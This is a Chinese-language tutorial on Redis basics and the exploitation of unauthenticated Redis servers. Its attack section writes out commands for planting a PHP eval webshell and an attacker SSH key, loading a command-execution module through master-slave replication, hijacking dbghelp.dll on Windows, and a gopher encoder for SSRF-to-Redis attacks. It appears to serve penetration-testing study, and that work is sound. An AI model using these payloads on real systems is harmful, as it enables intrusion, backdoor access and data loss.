## Redis基础

## redis

Redis，英文全称是Remote Dictionary Server（远程字典服务），是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

与MySQL数据库不同的是，Redis的数据是存在内存中的。它的读写速度非常快，每秒可以处理超过10万次读写操作。因此redis被广泛应用于缓存，另外，Redis也经常用来做分布式锁。除此之外，Redis支持事务、持久化、LUA 脚本、LRU 驱动事件、多种集群方案。

## 常用命令

通过redis-cli -h ip -p 6379连接

```
info                                # 显示系统信息
AUTH [username] password            # 认证
set xz "Hacker"                     # 设置键xz的值为字符串Hacker
get xz                              # 获取键xz的内容
SET score 857                       # 设置键score的值为857
INCR score                          # 使用INCR命令将score的值增加1
GET score                           # 获取键score的内容
keys *                              # 列出当前数据库中所有的键
config set protected-mode no        # 关闭安全模式
config set dir /root/redis          # 设置保存目录
config set dbfilename redis.rdb     # 设置保存文件名
config get dir                      # 查看保存目录
config get dbfilename               # 查看保存文件名
save                                # 进行一次备份操作
del key                             # 删除键为key的数据
slaveof ip port                 # 设置主从关系
```

## Redis数据库配置



常用配置含义
### port

```
格式为port后面接端口号，如port 6379，表示Redis服务器将在6379端口上进行监听来等待客户端的连接。
```

### bind

```
格式为bind后面接IP地址，可以同时绑定在多个IP地址上，IP地址之间用空格分离，如bind 192.168.1.100 10.0.0.1，表允许192.168.1.100和10.0.0.1两个IP连接。如果设置为0.0.0.0则表示任意ip都可连接，说白了就是白名单。
```

### save

```
格式为save <秒数> <变化数>，表示在指定的秒数内数据库存在指定的改变数时自动进行备份（Redis是内存数据库，这里的备份就是指把内存中的数据备份到磁盘上）。可以同时指定多个save参数，如：
save 900 1
save 300 10
save 60 10000
表示如果数据库的内容在60秒后产生了10000次改变，或者300秒后产生了10次改变，或者900秒后产生了1次改变，那么立即进行备份操作。
```

### requirepass

```
格式为requirepass后接指定的密码，用于指定客户端在连接Redis服务器时所使用的密码。Redis默认的密码参数是空的，说明不需要密码即可连接；同时，配置文件有一条注释了的requirepass foobared命令，如果去掉注释，表示需要使用foobared密码才能连接Redis数据库。
```

### dir

```
格式为dir后接指定的路径，默认为dir ./，指明Redis的工作目录为当前目录，即redis-server文件所在的目录。注意，Redis产生的备份文件将放在这个目录下。
```

### dbfilename

```
格式为dbfilename后接指定的文件名称，用于指定Redis备份文件的名字，默认为dbfilename dump.rdb，即备份文件的名字为dump.rdb。
```

### config

```
通过config命令可以读取和设置dir参数以及dbfilename参数，因为这条命令比较危险（实验将进行详细介绍），所以Redis在配置文件中提供了rename-command参数来对其进行重命名操作，如rename-command CONFIG HTCMD，可以将CONFIG命令重命名为HTCMD。配置文件默认是没有对CONFIG命令进行重命名操作的。
```

### protected-mode

```
redis3.2之后添加了protected-mode安全模式，默认值为yes，开启后禁止外部连接，所以在测试时，先在配置中修改为no。
```

## 下载安装redis

**linux：**
```
wget https://download.redis.io/releases/redis-5.0.7.tar.gz
tar xzf redis-5.0.7.tar.gz
cd redis-5.0.7
sed -i "s/const char \*SDS_NOINIT;/extern &/" src/sds.h  #该版本需要修改
make
sudo make install
```

**windows:**

https://github.com/microsoftarchive/redis


# 关于漏洞

未授权情况下可以有以下几种打法：

**条件：**
无密码或弱密码
`protected-mode no`
服务开放在公网 | 结合ssrf漏洞利用
## 数据操纵

1. 敏感数据泄露

Redis数据表可能中存储着企业的私有数据，比如一些网站的账户密码、有效的SESSIONID、FTP账户密码等，而攻击者可以随时查看数据表的内容。

2. Redis数据销毁

攻击者可以修改redis数据表，增删key项，如调用flushall命令清除所有key。

3. 主机系统环境泄露，为后续攻击提供网络信息

例如，使用 info 命令可以查看主机的相关信息，如操作系统环境、目录名、CPU/内存等敏感信息。


## 任意文件写

通过

1. config set dir 设置目录
2. config set dbfilename 设置文件名
3. set key value的形式写数据
4. save将数据写入指定文件

的方式，实现任意文件写



写入后：




#### 写webshell

利用条件：

1. 知道网站根目录
2. 有写入权限

```
config set dir /var/www/html/   
config set dbfilename zcc.php
set xxx "\n\n\n<?php @eval($_POST['zcc']);?>\n\n\n"
save
```

#### 写ssh公钥

利用条件：

1. redis服务以root权限启动
2. 网站开启了ssh服务，且允许公钥登陆


```
config set dir /root/.ssh/

config set dbfilename authorized_keys

set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDCiRdspB+toUvUw1pvmizU3XUk9tEF8Dvu/u2Ro9wOYlFWL+JsEI8IWbnQY8YenPZStJMQGu0onJML+fM475Prd6llv3gOZL45P07Xv03MqVcrU0BrFxmtXd9fr91Sl5kPNME9A2LrfmWszkELGDn+RJPSTGXvB8yKTJ2TjwP2Bn6RbVCtOpX3bkaCFja4MvjxeDat0yYFRw9SOUE1UEU3jsX0jvIjhjDlcOhOtsHgB3rCyN+U6sY8T9IzmFaw7BjufHEpTiErx5NDOW/FjQsEuX2eCX6w3RxCdso1oceVhG+5VbsorEi01ddSEGubK4ZvMB0/kwJu0e1dozaJZOIKxxxx7zhdVjHb0zJQzbqqzwbMe54dsGerQA1BCnLF/axmt13BNZKXgBIcaxtPx7Ik7ekigjn/T6ldlguZXUup+yI8g8nzJEkI6PFNc+UYl+SY1cqpCmPQv2CGP8FcD++VBmxf0hh8AzO4jdbfZZIqpBqqhtVKeHLXMcV7OXCFM= red@sxxc\n\n\n" 

# 本地生成的公钥写入服务器，用于远程登陆

save
```

--- 

**公钥登陆原理**

SSH提供两种登录验证方式，一种是口令验证也就是账号密码登录，另一种是公钥认证。

所谓公钥认证，其实就是一种基于非对称密码的认证，使用公钥加密、私钥解密，其中公钥是可以公开的，放在服务器端，你可以把同一个公钥放在所有你想SSH远程登录的服务器中，而私钥是保密的只有你自己知道，公钥加密的消息只有私钥才能解密，大体过程如下：

1. 客户端通过ssh-keygen生成私钥和公钥，将公钥拷贝给服务器端
2. 客户端发起登录请求
3. 服务器端根据客户端发来的信息(用户名和ip)查找是否存有该客户端的公钥，如果有，发送一个用公钥加密后的随机数给客户端，仅有拥有私钥的人才能解密
4. 客户端收到服务器发来的加密后的消息后使用私钥解密，并把解密后的结果发给服务器用于验证
5. 服务器收到客户端发来的解密结果，与自己刚才生成的随机数比对，如果一致，则验证通过，允许客户端登陆

--- 

## 主从复制 + 


### 原理

主从模式指使用一个redis作为主机（主节点），其他的作为备份机（从节点），从机负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力。

主从复制，是为了保持从节点与主节点数据一致性的技术。当主节点的数据发生变化时，需要将主节点的数据同步到从节点中。初始时需全量同步，后续只需要增量同步（同步修改的部分）

```
slaveof <host> <port>  # 设置当前redis服务器作为host:port远程redis的从节点
slaveof no one     # 取消主从关系
```

通过主从复制可以实现文件无损上传

---

这里的文件上传和上述的任意文件写有什么区别？

1. 上述任意文件写会有附带的无关数据，会影响进一步利用
2. 当dir、dbfilename等敏感配置被禁止，第一种方法就失效了

---

exp：

https://github.com/mekrina/tools-redis.git

本地执行：



然后在远程执行：



本地收到请求，并成功上传文件：




可以看到这里没有其他无用数据，与上传的内容完全一致

但是文件名是默认的dump.rdb

**这样会导致服务器上的数据全部丢失，实际渗透测试时请谨慎操作**

### 结合模块加载

**利用条件：**
redis 4.xx 5.xx

redis模块加载机制从redis4.0引入，允许开发者通过编写外部库来扩展Redis功能。
高版本如redis6.2.29不允许在运行时加载，需要从配置文件中加载

导入方法是
```
module load <module filename>
```

我们可以编写一个执行命令的redis模块，编译好后，通过主从复制上传到服务器，再通过module load加载该模块，实现命令执行

https://github.com/mekrina/tools-redis.git （还是它）的redisModuleMaker下实现了这个扩展，可以通过make编译，编译好的结果在uploads/module.so

通过上述方法上传module.so，然后使用
```
module load ./dump.rdb
```
加载模块，然后就可以使用自定义的命令system.exec来执行系统命令了


### 结合dll劫持

**利用条件：**
windows系统
**下载：**
https://github.com/microsoftarchive/redis/releases/tag/win-3.0.504

由于microsoft官方维护的redis最高版本只到3.05, 没法用上述模块加载的方式进行攻击

但是可以结合windows中的dll劫持方式进行RCE

---
**什么是DLL劫持？**

**DLL劫持**（DLL Hijacking）是一种利用Windows系统动态链接库（DLL）加载机制漏洞的攻击技术。攻击者通过将恶意DLL文件放置在优先加载目录中，诱使目标程序加载该恶意DLL，从而执行恶意代码。

**DLL劫持的原理**

Windows程序在运行时需要加载DLL文件以调用特定功能。系统会按照一定的搜索顺序查找所需的DLL文件：

1. **应用程序所在目录**：优先从应用程序的目录加载DLL。

2. **系统目录**：通常是_C:\Windows\System32_。

3. **16位系统目录**：仅为兼容性保留，通常可以忽略。

4. **Windows目录**：通常是_C:\Windows_。

5. **当前目录**

6. **环境变量PATH中的目录**：依次搜索PATH变量中列出的所有目录。

如果程序未指定DLL的绝对路径，系统会优先加载搜索路径中第一个找到的DLL文件。攻击者可以利用这一点，将恶意DLL放置在优先目录中，替代合法DLL，从而实现劫持。

为了保持原有dll的功能，一般通过**转发**，即编写一个dll，在完成恶意工作后，转发给正常的dll，让他接着完成程序原本需要完成的工作



---

而我们上传的文件恰好就是在应用程序所在目录，也就是优先级最高的目录下

根据process monitor工具，可以测试出当执行bgsave时，redis-server会尝试从程序目录下查找`dbghelp.dll`，所以我们可以选择劫持这个dll, 可以保证上传的dll文件会被加载



利用现成dll劫持工具： https://github.com/mekrina/tools-dllhijacking.git

复制电脑中原有的dbghelp.dll到工具目录，命名为dbghelp_orig.dll

执行` ./hijacking.sh dbghelp_orig.dll dbghelp.dll`

然后将dbghelp_orig.dll和创建的dbghelp.dll都上传到服务器

执行bgsave

服务器就会执行我们的恶意命令



注意这里需要指定上传的文件名，否则不会被加载



## ssrf+redis

如果redis服务开放在公网， 我们可以通过redis-cli连接，直接执行redis命令

但是当我们仅能通过ssrf探测到内网时，我们需要使用到gopher协议或dict协议来与redis-server进行通信

比如有如下curl服务

```php
$ch = curl_init();
 
curl_setopt($ch, CURLOPT_URL, $url);

curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

curl_setopt($ch, CURLOPT_TIMEOUT, 5);   
$response = curl_exec($ch);
```

通过分析redis-cli与redis-server之间的通信流量



可以发现，redis-cli其实仅仅只是把我们的输入包装成帧发送给redis-server而已，我们也可以通过curl+gopher编码完成这个工作

```python
import urllib.parse
import re
from argparse import *

def gopher_encode(host, port, request):
    request = re.sub(r"\r?\n", "\r\n", request)
    result = urllib.parse.quote(request)
    return f"gopher://{host}:{port}/_{result}"

if(__name__ == "__main__"):
    parse = ArgumentParser(conflict_handler='resolve')
    parse.add_argument("-h", "--host", type=str, required=True, help="host to request")
    parse.add_argument("-p", "--port", type=str, required=True, help="port to request")
    parse.add_argument("-f", "--file", type=str, required=True, help="file with full request to encode")
    parse.add_argument("-e", "--encode", action="store_true", help="another url_encode after gopher_encode")
    args = parse.parse_args()
    
    with open(args.file, "r") as f:
        content = f.read()
        
    res = gopher_encode(args.host, args.port, content)
    
    if(args.encode):
        res = urllib.parse.quote(res)
        
    print(res)
```

对PING编码得到gopher://localhost:6379/_PING


可以看到, 服务端识别出了PING命令

用dict协议也可以


## 其他漏洞

redis有非常多的CVE


其中上个月还发布了一个与lua脚本相关的内存释放后重用漏洞，不过利用难度很高





